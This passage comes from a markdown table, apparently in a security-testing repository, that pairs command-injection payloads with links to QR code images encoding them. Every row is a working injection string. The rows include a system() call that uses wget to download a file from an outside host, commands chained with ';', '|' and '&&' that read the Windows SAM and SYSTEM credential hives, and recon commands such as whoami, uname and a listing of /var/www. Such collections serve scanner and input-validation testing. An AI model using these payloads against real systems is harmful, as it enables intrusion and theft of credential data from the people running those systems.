 | `system('wget https://xerosecurity.com/.testing/rce_vuln.txt');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/384.png) |
| `system('whoami')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/385.png) |
| `system('whoami');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/386.png) |
| `test*; ls -lhtR /var/www/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/387.png) |
| `test*; perl -e 'print "X"x16096'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/392.png) |
| ``$(`type C:\boot.ini`)`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/393.png) |
| `&&type C:\\boot.ini` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/394.png) |
| `\| type C:\Windows\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/395.png) |
| `; type C:\Windows\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/396.png) |
| `& type C:\Windows\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/397.png) |
| `&& type C:\Windows\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/398.png) |
| `type C:\Windows\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/399.png) |
| `\| type C:\Windows\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/400.png) |
| `; type C:\Windows\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/401.png) |
| `& type C:\Windows\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/402.png) |
| `&& type C:\Windows\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/403.png) |
| `type C:\Windows\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/404.png) |
| `\| type C:\WINNT\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/405.png) |
| `; type C:\WINNT\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/406.png) |
| `& type C:\WINNT\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/407.png) |
| `&& type C:\WINNT\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/408.png) |
| `type C:\WINNT\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/409.png) |
| `type C:\WINNT\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/410.png) |
| `\| type %SYSTEMROOT%\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/411.png) |
| `; type %SYSTEMROOT%\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/412.png) |
| `& type %SYSTEMROOT%\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/413.png) |
| `&& type %SYSTEMROOT%\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/414.png) |
| `type %SYSTEMROOT%\repair\SAM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/415.png) |
| `\| type %SYSTEMROOT%\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/416.png) |
| `; type %SYSTEMROOT%\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/417.png) |
| `& type %SYSTEMROOT%\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/418.png) |
| `&& type %SYSTEMROOT%\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/419.png) |
| `type %SYSTEMROOT%\repair\SYSTEM` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/420.png) |
| `uname` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/421.png) |
| `;uname;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/422.png) |
| `\| uname -a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/423.png) |
| `; uname -a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/424.png) |